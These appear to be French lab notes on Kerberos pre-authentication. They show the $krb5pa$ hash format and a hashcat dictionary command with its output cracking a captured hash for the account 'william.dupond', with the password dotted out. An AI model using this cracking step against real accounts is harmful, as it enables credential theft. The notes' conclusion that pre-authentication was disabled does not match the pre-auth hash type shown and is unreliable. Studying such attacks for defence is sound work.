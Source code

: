 > Si la pré-authentification est désactivée, n’importe qui peut demander un TGT au nom d’un compte, sans envoyer d’authentifiant, et le KDC renverra un `KRB_AS_REP` au demandeur.

Structure d'un hash`AS-REQ` l'hors d'une `Pre-Auth`

```c
$krb5pa$etype$username$domain$cipher
```

![](../Images/pre-auth-kerberos.png)

```sh
└─$ hashcat -a 0 -m 19900 hash.txt /opt/rockyou.txt --show

$krb5pa$18$william.dupond$catcorp.local$fc8bbe22b2c967b222ed73dd7616ea71b2ae0c1b0c3688bfff7fecffdebd4054471350cb6e36d3b55ba3420be6c0210b2d978d3f51d1eb4f:.........
```

![](../Images/pre-auth-hashcat.png)

> Donc la pré-authentification pour le compte de `william.dupond` a été désactiver
